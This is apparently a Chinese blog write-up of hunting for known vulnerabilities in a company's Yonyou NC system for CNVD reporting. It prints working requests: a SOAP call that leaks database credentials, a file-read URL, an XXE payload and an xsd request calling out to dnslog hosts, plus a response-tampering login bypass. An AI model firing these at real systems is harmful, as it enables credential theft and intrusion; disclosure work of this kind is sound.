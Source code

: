 #  漏洞挖掘|轻松挖掘某企业某友系统的多个漏洞   
原创 爱州  州弟学安全   2024-03-05 18:59  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/icdGEWOnYLpNJUTyXhK4Iic6TJFLAAboGBK3V3tSviaWr4PZG8a6IYoiaMTg23QFLvasNxpQL1Ed9qLsPUmGPH1mPw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
**0x01 前言**  
  
    在某天我打点CNVD资产的时候，我的WX响了起来，收到一个不明文件，后面收到备注后，我就懂了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3RCrvXVn1NIvX74pBDI4YLqDib7ciazAsmQ60WQdwdyNoSFnsibSgdMMbw/640?wx_fmt=png&from=appmsg "")  
  
    筛选后找一下对应企业的资产信息，资产并不多，主页和OA以及yongyou NC，OA为最新版，但是NC很眼熟，给人一种有着成熟洞的感觉  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3EpqDH8o0GuoYcbr9YOhBRyAEYnXETmGCEHIagbbW0wC2Mzhq3I18Hw/640?wx_fmt=png&from=appmsg "")  
  
    发现的几个漏洞都是历史漏洞，对于个人技术而言没有什么创新性，但是就当继续学习吧，对此系统的漏洞产生一个新的认知  
  
*** 文中的工具及文章仅供参考，请勿做违法使用，后果自负**  
  
**0x02 剧情演绎**  
  
****  
已知WEB系统类型，剩下的就交给工具了，术业有专攻，咱们能被动手机就不做主动，能半扫就不漏扫，万一给系统干崩咯，就不是挖洞的事了  
  
    使用专项工具进行检测一下，获取到了此版本的历史漏洞名称，一一进行复测  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3VlfA8JiaNOuRozLXbmsANRIcMNFTDljpXvcTFtHTBib7LhCmGxlRINxw/640?wx_fmt=png&from=appmsg "")  
```
相关OA漏洞工具，关注公众号回复 '20240305' 获取
```  
  
既然给出了相关的接口和漏洞名称，则利用方法，证明漏洞存在，上交即可  
  
**1. ActionHandlerServlet_serial**  
  
这个我本想传马，但是一直传不上去，不知道是有waf的存在还是权限太小，只能使用DNSLOG证明一下漏洞存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS38nvianGyO5uvGRSAjV7mDfT0Bt949aTrADGcibSnyCNXKp7vHAjk42DA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3mIicoM7UPYDkf0mA8B5flDl1licoHwsHcpayPlNChdVUY3L4xc8iaBnxg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3z4vpJHff2I3via6oyB6MxSwdy3yCfUHsw0zRRgkgiaEps8rvFEB71nMg/640?wx_fmt=png&from=appmsg "")  
  
**2. wsncapplet_info**  
  
这个没什么重要的，也就是个低危，在访问xxx.com/jsp/wsncapplet.jsp后会下载一个ncws.jnlp文件，文件存放着一些系统信息![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3A959JIw4QymWRjbxClvIiaceaOBCZJonuo1aPEpQ9grEMZfsFbXLNfw/640?wx_fmt=png&from=appmsg "")  
  
  
**3. NCFindWeb_FileRead**  
  
yongyou nc任意文件读取漏洞  
```
xxx.com/NCFindWeb?service=IPreAlertConfigService&filename=
```  
  
说是任意文件读取，但是往上级读取，一直读不到，只能读下级递归目录文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS33hwNicmubic9Djj8ET4HGZkMA2NicoYXyrB5eCQriaV7kkDsaDeM0oA7Bg/640?wx_fmt=png&from=appmsg "")  
  
本想着通过文件上传到已知目录，但是传不上去  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3chBtjXZ5ZhDfibD06dp2y9LNhibTLon6Lojic02ySoheE9Y5hMLRTicITw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3ViaLyoeLAByRA7LB9NT5fNlKZonicDphRZXbNJd5ia4HicWffHgYYx5AVQ/640?wx_fmt=png&from=appmsg "")  
  
**4. PortalSESInitToolService_info 接口泄露**  
  
这个是用友NC的接口泄露，一般存在老版本中，会泄露数据库的账号密码等  
```
xxx.com/uapws/service
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3F5Ns24kWjM0osEHTvuCCO4VneqeOPmjUJRUErGtmIj2icS0gy9ZmHfA/640?wx_fmt=png&from=appmsg "")  
  
通过以下POC获取到使用的Oracle数据库信息及账号密码  
```
POST /uapws/service/nc.itf.ses.inittool.PortalSESInitToolService HTTP/1.1
Host: xxx.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0000BEtj3PKIkEuQEl3QgSG0m_s:ncMem01; PHPSESSID=2udllet2aacl7sipggrivh1ao0; Hm_lvt_3f0e2ef8a35eee0e88de480534cd2f83=1709442601,1709559502; Hm_lpvt_3f0e2ef8a35eee0e88de480534cd2f83=1709559502
Connection: close
Content-Length: 237

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:por="http://inittool.ses.itf.nc/PortalSESInitToolService"> <soapenv:Header/> <soapenv:Body>    <por:getDataSourceConfig/> </soapenv:Body></soapenv:Envelope
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3oypXM9UicnyvjOtsCOSibhN0LA8lrAhLwgKARNqe1oaOfD30eqmhumSA/640?wx_fmt=png&from=appmsg "")  
  
**5. IUpdateService_xxe漏洞**  
  
有一个直接性的POC直接DNSLOG，但是我访问一直超时，不知道为什么  
```


POST /uapws/service/nc.uap.oba.update.IUpdateService HTTP/1.1
Host: xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Length: 421
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: text/xml;charset=UTF-8
SOAPAction: urn:getResult
Upgrade-Insecure-Requests: 1

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:iup="http://update.oba.uap.nc/IUpdateService">
<soapenv:Header/>
<soapenv:Body>
<iup:getResult>
<!--type: string-->
<iup:string><![CDATA[
<!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://c2vkbwbs.dnslog.pw">%aaa;%ccc;%ddd;]>
<xxx/>]]></iup:string>
</iup:getResult>
</soapenv:Body>
</soapenv:Envelope>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS391UaZdGKmWcne0rIPibfgXVKXRIqU0GkIwiaTg7ADREXbGpV5aw0ibMHg/640?wx_fmt=png&from=appmsg "")  
  
然后我正苦思冥想中，想到了老版本的NC可以绕过登录验证，于是就访问用友NC的后台，即WS console，但是没想到是弱口令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3wiczKou7pe6e6CwTPpECaVvo6r1tk0xomEM93ic50vaBBPIFrzgsb9SQ/640?wx_fmt=png&from=appmsg "")  
  
登录验证绕过：就是登录后修改返回包，正常情况下密码错误返回包是0，正确则是1，把0改为1则登录成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3LYKnDRe7JqYmybL0iapmLdN3kNJJJEwDo3Yhkojm1kTbIzvLicdnZexw/640?wx_fmt=png&from=appmsg "")  
  
登录成功后，找到图中以下路径进行发送POC中的包内容  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3BeFRSLticVJ7j0kamicibqmFSSH31e3eKpiaZz1fEIzZpeNUfe25LkVesQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS33wxA8vALdCjnKDiawatW3kodfluqM1ibFN6o9cMu6gzu9142otoheHGA/640?wx_fmt=png&from=appmsg "")  
  
其次就是使用以下payload直接GET访问dnslog地址  
```
https://xxx.com/uapws/service/nc.uap.oba.update.IUpdateService?xsd=http://xxx.dnslog.cn
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpNCibnVCyjYqu6MCKPS9oSS3JLAGsOPAWkFXXaDHpsu9NQSaB1pk1Wdiaic2VSVrh44tt7zXjM4kgYTQ/640?wx_fmt=png&from=appmsg "")  
  
**0x03 总结**  
  
    最近确实挺忙活，然后挖洞的情况下也漫无目的的去挖，本身讲究的就是可验证性，我有三不：不对系统造成危害，不碰数据，不碰金额，其次就是需要学的还有很多，这次其实就是个巧合，最后交玩收工，相当于没费劲捡洞了！  
  
